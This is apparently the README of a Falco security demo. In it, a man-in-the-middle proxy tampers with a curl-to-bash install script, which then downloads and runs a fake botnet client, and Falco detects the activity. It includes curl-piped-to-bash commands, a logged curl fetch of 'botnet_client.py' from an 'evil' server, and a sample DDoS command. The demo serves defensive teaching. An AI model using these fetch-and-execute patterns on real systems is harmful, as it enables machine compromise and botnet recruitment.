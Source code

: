 # Demo of falco with man-in-the-middle attacks on installation scripts

For context, see the corresponding [blog post](http://sysdig.com/blog/making-curl-to-bash-safer) for this demo.

## Demo architecture

### Initial setup

Make sure no prior `botnet_client.py` processes are lying around.

### Start everything using docker-compose

From this directory, run the following:

```
$ docker-compose -f demo.yml up
```

This starts the following containers:
* apache: the legitimate web server, serving files from `.../mitm-sh-installer/web_root`, specifically the file `install-software.sh`.
* nginx: the reverse proxy, configured with the config file `.../mitm-sh-installer/nginx.conf`.
* evil_apache: the "evil" web server, serving files from `.../mitm-sh-installer/evil_web_root`, specifically the file `botnet_client.py`.
* attacker_botnet_master: constantly trying to contact the botnet_client.py process.
* falco: will detect the activities of botnet_client.py.

### Download `install-software.sh`, see botnet client running

Run the following to fetch and execute the installation script,
which also installs the botnet client:

```
$ curl http://localhost/install-software.sh | bash
```

You'll see messages about installing the software. (The script doesn't actually install anything, the messages are just for demonstration purposes).

Now look for all python processes and you'll see the botnet client running. You can also telnet to port 1234:

```
$ ps auxww  | grep python
...
root   19983  0.1  0.4  33992  8832 pts/1    S    13:34   0:00 python ./botnet_client.py

$ telnet localhost 1234
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
```

You'll also see messages in the docker-compose output showing that attacker_botnet_master can reach the client:

```
attacker_botnet_master | Trying to contact compromised machine...
attacker_botnet_master | Waiting for botnet command and control commands...
attacker_botnet_master | Ok, will execute "ddos target=10.2.4.5 duration=3000s rate=5000 m/sec"
attacker_botnet_master | **********Contacted compromised machine, sent botnet commands
```

At this point, kill the botnet_client.py process to clean things up.

### Run installation script again using `fbash`, note falco warnings.

If you run the installation script again:

```
curl http://localhost/install-software.sh | ./fbash
```

In the docker-compose output, you'll see the following falco warnings:

```
falco                  | 23:19:56.528652447: Warning Outbound connection on non-http(s) port by a process in a fbash session (command=curl -so ./botnet_client.py http://localhost:9090/botnet_client.py connection=127.0.0.1:43639->127.0.0.1:9090)
falco                  | 23:19:56.528667589: Warning Outbound connection on non-http(s) port by a process in a fbash session (command=curl -so ./botnet_client.py http://localhost:9090/botnet_client.py connection=)
falco                  | 23:19:56.530758087: Warning Outbound connection on non-http(s) port by a process in a fbash session (command=curl -so ./botnet_client.py http://localhost:9090/botnet_client.py connection=::1:41996->::1:9090)
falco                  | 23:19:56.605318716: Warning Unexpected listen call by a process in a fbash session (command=python ./botnet_client.py)
falco                  | 23:19:56.605323967: Warning Unexpected listen call by a process in a fbash session (command=python ./botnet_client.py)
```
